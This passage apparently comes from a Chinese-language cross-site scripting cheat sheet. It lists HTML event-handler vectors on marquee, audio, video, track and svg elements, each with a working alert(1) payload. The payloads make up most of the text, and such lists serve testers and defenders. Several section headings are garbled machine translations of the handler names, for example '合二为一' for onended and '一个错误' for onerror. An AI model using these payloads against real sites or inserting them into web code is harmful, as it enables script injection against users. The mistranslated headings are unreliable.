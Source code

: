 ```
<marquee width=1 loop=1 onbounce=alert(1)>XSS</marquee>
```

#### **oncanplay**

如果资源可以使用，它将被解雇。

```
<audio oncanplay=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **在线播放**

当加载了足够的数据来全程播放资源时，该事件处理程序将会触发。

```
<video oncanplaythrough=alert(1)><source src="video.mp4" type="video/mp4"></video>
```

#### **oncuechange**

字幕更改时发生

```
<video controls><source src=video.mp4 type=video/mp4><track default oncuechange=alert(1) src="data:text/vtt,WEBVTT FILE 1 00:00:00.000 --> 00:00:05.000 <b>XSS</b> "></video>
```

#### 波浪变化

持续时间改变时发生

```
<audio controls ondurationchange=alert(1)><source src=audio.mp3 type=audio/mpeg></audio>
```

#### **一日和**

当 svg 动画结束时激发

```
<svg><animate onend=alert(1) attributeName=x dur=1s>
```

#### **合二为一**

当资源播放完毕时触发

```
<audio controls autoplay onended=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **一个错误**

当资源加载失败或导致错误时发生

```
<audio src/onerror=alert(1)>
```
